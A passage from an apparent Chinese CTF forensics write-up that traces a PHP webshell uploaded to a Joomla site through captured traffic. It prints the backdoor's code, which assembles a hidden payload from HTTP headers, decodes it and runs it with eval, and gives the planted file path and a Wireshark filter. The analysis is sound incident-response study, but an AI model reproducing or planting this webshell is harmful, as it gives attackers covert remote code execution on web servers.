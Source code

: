 ```
    $q = array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/", $ra, $m);
    if ($q &amp;&amp; $m) `{`
        @session_start();
        $s =&amp; $_SESSION;
        $i = $m[1][0] . $m[1][1];
        $h = strtolower(substr(md5($i . "cb42"), 0, 3));
        $f = strtolower(substr(md5($i . "e130"), 0, 3));
        $p = "";
        for ($z = 1; $z &lt; count($m[1]); $z++) `{`
            $p .= $q[$m[2][$z]];
        `}`
        if (strpos($p, $h) === 0) `{`
            $s[$i] = "";
            $p = substr($p, 3);
        `}`
        if (array_key_exists($i, $s)) `{`
            $s[$i] .= $p;
            $e = strpos($s[$i], $f);
            if ($e) `{`
                $k = "cb42e130";
                ob_start();
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), substr($s[$i], 0, $e))), "cb42e130")));
                $o = ob_get_contents();
                ob_end_clean();
                $d = base64_encode(x(gzcompress($o), "cb42e130"));
                print "&lt;`{`$k`}`&gt;`{`$d`}`&lt;/`{`$k`}`&gt;";
                @session_destroy();
            `}`
        `}`
    `}`
`}`
```

故此可以100%确定此为第二个小马<br>
上传时间为:`17:20:44.248365`<br>
容易看到此时有两个与HTTP头有关的参数

```
$rr = @$_SERVER["HTTP_REFERER"];
$ra = @$_SERVER["HTTP_ACCEPT_LANGUAGE"];
```

我们来确定一下数据传递部分，首先是确定小马名称

```
/var/www/html/joomla/tmp/footer.php
```

还是使用过滤

```
(ip.addr == 192.168.1.8 || ip.addr == 202.1.1.2) &amp;&amp; http
```
